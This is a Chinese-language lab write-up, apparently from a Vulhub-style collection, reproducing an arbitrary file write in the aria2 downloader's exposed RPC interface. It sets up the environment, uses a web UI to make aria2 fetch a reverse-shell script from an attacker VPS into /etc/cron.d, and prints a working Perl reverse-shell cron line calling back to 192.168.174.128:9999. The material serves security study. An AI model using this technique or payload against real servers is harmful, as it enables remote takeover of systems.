



# Aria2 任意文件写入漏洞

## 漏洞描述

Aria2是一个命令行下轻量级、多协议、多来源的下载工具（支持 HTTP/HTTPS、FTP、BitTorrent、Metalink），内建XML-RPC和JSON-RPC接口。在有权限的情况下，我们可以使用RPC接口来操作aria2来下载文件，将文件下载至任意目录，造成一个任意文件写入漏洞。

参考阅读：https://paper.seebug.org/120/

## 环境搭建

Vulhub启动漏洞环境：

```
docker-compose up -d
```

6800是aria2的rpc服务的默认端口，环境启动后，访问`http://your-ip:6800/`，发现服务已启动并且返回404页面。

## 漏洞复现

因为rpc通信需要使用json或者xml，不太方便，所以我们可以借助第三方UI来和目标通信，如 http://binux.github.io/yaaw/demo/ 。

打开yaaw，点击配置按钮，填入运行aria2的目标域名：`http://your-ip:6800/jsonrpc`


然后点击Add，增加一个新的下载任务，将另一台VPS服务器上的反弹shell脚本下载至/etc/cron.d。

在Dir的位置填写下载至的目录，File Name处填写文件名。比如，我们通过写入一个crond任务来反弹shell：



这时候，arai2会将恶意文件（我指定的另一台VPS服务器上的URL，为http://xxx.xxx.xxx.xxx/reverse_shell.sh）下载到/etc/cron.d/目录下，文件名为shell。而在debian中，/etc/cron.d目录下的所有文件将被作为计划任务配置文件（类似crontab）读取，等待一分钟不到即成功反弹shell：

```
* * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.174.128";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

使用crontab -l命令查看定时任务，并不能查看到我们设置的反弹shell。

cron执行时要读取三个地方的配置文件：一是/etc/crontab，二是/etc/cron.d目录下的所有文件，三是每个用户的配置文件。



> 如果反弹不成功，注意crontab文件的格式，以及换行符必须是`\n`，且文件结尾需要有一个换行符（建议直接在VPS服务器上执行vim）。



当然，我们也可以尝试写入其他文件，更多利用方法可以参考[这篇文章](https://paper.seebug.org/120/)。

